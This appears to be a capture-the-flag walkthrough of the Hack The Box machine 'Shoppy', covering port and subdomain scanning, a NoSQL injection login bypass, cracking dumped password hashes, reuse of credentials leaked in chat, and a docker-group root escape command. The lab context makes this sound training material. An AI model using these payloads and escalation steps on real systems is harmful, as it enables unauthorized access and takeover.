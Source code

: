# [Shoppy](https://app.hackthebox.com/machines/shoppy)

```bash
nmap -p- --min-rate 10000 10.10.11.180 -Pn
```
![Alt text](img/image.png)


After knowing open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,9093 10.10.11.180 
```

![Alt text](img/image-2.png)

From nmap scan result, I see that this ip address is automatically resolved into 'shoppy.htb', that's why I need to add this domain into `/etc/hosts` file.

![Alt text](img/image-1.png)

Let's do subdomain enumeration via `wfuzz` tool.

```bash
wfuzz -u http://10.10.11.180 -H "Host: FUZZ.shoppy.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hh 169
```

put image here.


I also did directory enumeration for `shoppy.htb` application via `feroxbuster` tool.
```bash
feroxbuster --url http://shoppy.htb/
```

![Alt text](img/image-3.png)


I see `Admin` page, let's try to inject some payloads for this login system.

![Alt text](img/image-4.png)


Login `POST` request is like below.

![Alt text](img/image-5.png)


Firstly, I put `'` character into username field, but it doesn't show anything.

Let's change Content-Type and try to do NoSQL Injections.

![Alt text](img/image-6.png)


From this error, I see that application is running on `/home/jaeger/ShoppyApp` folder.

I see that application is behaved like parsing `.json` data, let's try to add NoSQL Injection payload to bypass authentication.

Finally, I found correct bypass.
```bash
username=admin' || 'a'=='a&password=test
```

![Alt text](img/image-7.png)


I access application and see that there's option called `Search for users`.

![Alt text](img/image-8.png)


While I write `admin` into input, it gives me password of this user.

![Alt text](img/image-9.png)


So, to get all users, I will `NoSQL` injection payload to get all users list `admin' || '1'=='1`

![Alt text](img/image-10.png)


Let's crack passwords of this users via [Crackstation](https://crackstation.net)

![Alt text](img/image-11.png)



From subdomain enumeration, I found `mattermost.shoppy.htb`, I use this credentials to login into here.

josh:remembermethisway

![Alt text](img/image-12.png)


After enumeration, I found that there's `Deploy Machine` channel is created and sensitive credentials are shared via chat.

![Alt text](img/image-13.png)

username: jaeger
password: Sh0ppyBest@pp!

Let's use this credentials to connect into machine via `ssh`.

user.txt

![Alt text](img/image-14.png)


For privilege escalation, I just run `sudo -l` command.

![Alt text](img/image-15.png)


I look at this binary via `strings` file. But I use `-el` option due to see **'16-bit character string'**.

![Alt text](img/image-16.png)


Password: Sample.

Let's run this binary and enter password , see what happens.

![Alt text](img/image-17.png)

Again, I get credentials of `deploy` user.

deploy: Deploying@pp!


Now, I just run `id` command and see that this user belongs to `docker` group.

![Alt text](img/image-18.png)

I get exploit from [Gtfobins](https://gtfobins.github.io/gtfobins/docker/#shell) for `docker` group.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```


root.txt

![Alt text](img/image-19.png)